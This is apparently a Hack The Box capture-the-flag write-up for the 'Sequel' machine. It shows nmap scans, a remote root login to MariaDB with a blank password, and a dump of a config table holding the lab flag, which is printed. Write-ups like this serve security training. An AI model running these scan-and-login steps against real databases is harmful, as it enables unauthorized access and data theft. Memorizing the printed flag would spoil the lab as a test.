





# Sequel - Machine Writeup

## Machine Info
- Machine: Sequel
- OS: Linux
---

## 1. Reconnaissance

Started by running a fast port scan against the target IP to find open services:

```bash
sdheeraj@fedora:~$ nmap -F 10.129.44.151
Starting Nmap 7.92 ( https://nmap.org ) at 2026-11-01 14:46 IST
Nmap scan report for 10.129.44.151
Host is up (0.24s latency).
Not shown: 94 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
13/tcp   filtered daytime
646/tcp  filtered ldp
1433/tcp filtered ms-sql-s
3306/tcp open     mysql
5357/tcp filtered wsdapi
5631/tcp filtered pcanywheredata

Nmap done: 1 IP address (1 host up) scanned in 2.67 seconds
```

Port 3306/tcp was open running mysql. Then ran a more detailed scan with version detection and default scripts:

```bash
sdheeraj@fedora:~$ nmap -sV -sC 10.129.44.151
Starting Nmap 7.92 ( https://nmap.org ) at 2026-11-01 15:07 IST
Nmap scan report for 10.129.44.151
Host is up (0.23s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 139
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, Speaks41ProtocolOld, InteractiveClient, FoundRows, SupportsLoadDataLocal, ODBCClient, IgnoreSigpipes, ConnectWithDatabase, SupportsTransactions, Support41Auth, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsCompression, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 4/,.DL0LkXV)gN.:vh&~
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 252.27 seconds
```

Observation: The target is running MariaDB version 10.3.27 on Debian 10 over port 3306. MariaDB is the open-source community-developed drop-in replacement for MySQL.

---

## 2. Enumeration

By default, MySQL/MariaDB communicates over port 3306. In misconfigured database instances, the root user is sometimes left with no password set and allowed to log in remotely.

I used the mysql client utility to test logging into the target using `-h` to specify the remote host and `-u root` with `-p` for password prompt:

```bash
sdheeraj@fedora:~$ mysql -h 10.129.44.151 -u root -p
Enter password: 
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
```

Hitting enter without a password gave an SSL error because the local client attempted to enforce TLS, which the target server didn't support.

To fix this, added the `--skip-ssl` flag:

```bash
sdheeraj@fedora:~$ mysql -h 10.129.44.151 -u root -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 179
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Pressed enter on the password prompt (blank password) and logged straight into the MariaDB shell as root.

---

## 3. Exploitation

Once connected, enumerated the available databases using `SHOW DATABASES;`:

```sql
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.227 sec)
```

The `information_schema`, `mysql`, and `performance_schema` databases are default system tables, while `htb` is unique to this machine.

Selected the `htb` database with `USE htb;` and listed all tables using `SHOW TABLES;`:

```sql
MariaDB [(none)]> USE htb;
Database changed
MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.320 sec)
```

There are two tables: `config` and `users`.

Dumped everything in the `config` table using `SELECT * FROM config;`:

```sql
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.246 sec)
```

Row 5 had `name` set to `flag`, and the `value` column contained the root flag.

---

## 4. Flag

```text
7b4bec00d1a39e3dd4e021ec3d915da8
```

### Proof Screenshots

1. Fast nmap scan showing port 3306 open:


2. Service detection scan confirming MariaDB:


3. Logging into MariaDB as root with blank password and showing databases:


4. Selecting the htb database and dumping the config table to get the flag:


5. Solved screen on Hack The Box:
